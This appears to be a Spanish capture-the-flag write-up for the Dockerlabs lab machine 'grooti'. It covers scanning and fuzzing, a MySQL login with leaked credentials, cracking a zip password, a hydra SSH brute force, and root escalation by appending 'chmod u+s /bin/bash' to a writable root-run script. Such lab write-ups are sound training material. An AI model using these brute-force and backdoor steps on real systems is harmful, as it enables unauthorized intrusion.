 ## LEVANTAMOS LA MÁQUINA

Vamos a la página de 'Dockerlabs' y buscamos la máquina grooti, vamos al enlace y la descargamos:
```bash
https://dockerlabs.es/
https://mega.nz/file/OEUQEJjC#Ckg_Wxq7MqLHTfpjXgXBAJuIxla3qFqWv42Xw_qTQYA
```
![Nmap Scan](/images/grooti/grooti1.png)



Descarhamos el zip en nuestra máquina Linux, descomprimimos con:
```bash
unzip grooti.zip
```
y ejecutamos:

```bash
sudo bash auto_deploy.sh grooti.tar
```
![Nmap Scan](images/grooti/grroti2.png)

## FASE ENUMERACIÓN

Comenzamos con un scaneo de los puertos que tiene abiertos y los servicios que corren por ellos, así como sus versiones por si hay alguna vulnerabilidad asociada:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2
```
![Nmap Scan](images/grooti/grooti3.png)
![Nmap Scan](images/grooti/grooti4.png)

Vemos:

  -Puerto 22 con SSH versión 9.6p1 no vulnerable
  
  -Puerto 80 HTTP
  
  -Puerto 3306 mysql

Dado que no tenemos credenciales vamos a centrarno en el puerto 80 http, vamos a lanzar un 'whatweb' para saber que está utilizando la página:

```bash
 whatweb 172.17.0.2
```

![Nmap Scan](images/grooti/grooti5.png)


Nada interesante, salvo que utiliza apache, llegados a este punto toca mirar el código fuente por si hay algo interesante:

Abrimos la página web:
![Nmap Scan](images/grooti/grooti6.png)

con Ctrl+u abrimos el código fuente y vemos dos cosas interesantes:

![Nmap Scan](images/grooti/grooti7.png)

1- que un usuario rocket ha entrado en la base de datos, recordad que el puerto 3306 corre con mysql


2- tres rutas:"imagenes","documentos","archives"



No obstante vamos a hacer un fuzzing para ver que más rutas podemos encontrar:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x html,php,txt,bak,env,cgi,
```
![Nmap Scan](images/grooti/grooti8.png)

Vemos varias rutas con cosas interesante:
```
http://172.17.0.2/imagenes/ ----->http://172.17.0.2/imagenes/README.txt
```

Con un README.txt muy interesante:

![Nmap Scan](images/grooti/grooti9.png)

Ya tenemos un password: password1

```
http://172.17.0.2/archives/
```

Sin nada interesante


```
http://172.17.0.2/secret/
```
Con un listado de posibles usuarios:

![Nmap Scan](images/grooti/grooti10.png)

## INTRUSION EN BASE DE DATOS

Con todas las pistas vamos a intentar conectarnos a la base de datos con el usuario rocket y el password password1

```bash
mysql -h 172.17.0.2 -u rocket -ppassword1
```
Nos va a da un error y para corregirlo añadiremos --skip-ssl  quedando:
```bash
mysql -h 172.17.0.2 -u rocket -ppassword1 --skip-ssl
```
![Nmap Scan](images/grooti/grooti11.png)

Ahora que estamos conectados vamos a veer que bases de datos hay:
```
show databases;
```
encontramos `files_secret` vamos a utilizar esta base de datos

```bash
use files_secret;
```
listamos las tablas
```bash
show tables;
```
y mostramos todo lo que contiene la tabla `rutas`
```
select * from rutas;
```
![Nmap Scan](images/grooti/grooti12.png)

## FASE INTRUSIÓN
Encontrada una nueva ruta en la base de datos nos dirigimos a ella:

```
http://172.17.0.2/unprivate/secret/
```

vemos un panel donde podemos poner una frease y un numero del 1 al 100:

![Nmap Scan](images/grooti/grooti13.png)

Despues de mirar el código fuente, intentar inyectar cosas en el panel y no viendo nada raro, vamos a pasar la petición por burpsuite, dado que lo único que hace es descargar un archivo con el nombre password1.txt
el 1 varía y es el número que ponemos del 1 al 100. 

Capturamos la petición y vamos a lanzar un ataque de fuerza bruta a los numeros que introducimos


1- mandamos la petición al intruder:

![Nmap Scan](images/grooti/grooti14.png)

2-Seleccionamos dónde poner nuestro payload, concretamente en el número que metemos en el panael y le damos a "add"

![Nmap Scan](images/grooti/grooti15.png)

3-Cambiamos el payload type a Numers y from 1 to 100 para indicar que queremos solo numeros del 1 al 100

![Nmap Scan](images/grooti/grooti16.png)

y lanzamos el ataque con start attack

Cuando termina el ataque vamos a ordenar por el tamaño:

![Nmap Scan](images/grooti/grooti17.png)

Vemos que al poner el número 16 se dispara el tamaño de la respuesta y si miramos en ese número la respuesta vemos:

![Nmap Scan](images/grooti/grooti18.png)


Pues vamos a lanzar una petición con el número 16 y vemos que pasa, y nos descarga un zip protegido por cntraseña, vamos a romperla con 
john, lo primero usamos:

```bash
zip2john password16.zip > hash.txt
```
para generar el hash a romper del zip

y ahora intentamos romperlo con john:
```bash
 john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```
y rompe el hash:

![Nmap Scan](images/grooti/grooti19.png)

hacemos un unzip, metemos el password y nos descarga un txt:

![Nmap Scan](images/grooti/grooti20.png)

pues parece una lista de passwords, con esto vamos a probar fuerzabruta por ssh, antes hacemos una lista de users, os acordais de la página "http://172.17.0.2/secret/"
ahí teniamos tres usuarios: 
```
grooti
rocket
naia
```

vamos a meterlo en un archivo con el nombre users.txt y lanzamos un ataque con hidra, con esos usuarios y el archivo con los passwords que sacamos del zip:

![Nmap Scan](images/grooti/grooti21.png)

Nos conectamos por SSH como el usuario grooti a la IP victima:
```bash
ssh grooti@172.17.02
```
y cuando nos pide el password metemos
```
YoSoYgRoOt
```

Ya estamos dentro

## ESCALADA DE PRIVILEGIOS

Miro si estoy en algún grupo privilegiado con "id" y nada, si tengo algun privilegio sudo con "sudo -l" y nada, busco SUID y tampoco nada, listo usuarios y estamos root y yo xD

![Nmap Scan](images/grooti/grooti22.png)

Voy a detectar si hay algún proceso, copio en la victima en un archivo con nano este script:
```bash
https://github.com/lavafuego/herramientas/blob/main/detectar%20procesos%20en%20bash/procesos.sh
```
doy permisos de ejecución con chmod +x <nombre del archivo>
lo ejecuto:

![Nmap Scan](images/grooti/grooti23.png)

Veo que se ejecuta este proceso:
```
 /tmp/malicious.sh
```
miro los permisos que tengo sobre él, propietario root y puedo modificarlo
le añado una linea para modificar los permisos de la /bin/bash:
```bash
echo "chmod u+s /bin/bash" >>/tmp/malicious.sh
```
y espero a que vuelva a ejecutarse el proceso, cuando se ha ejecutado cambia los permisos de la /bin/bash y si lo ejecuto con la flag -p me convierto en root:
```bash
/bin/bash -p
```

![Nmap Scan](images/grooti/grooti24.png)


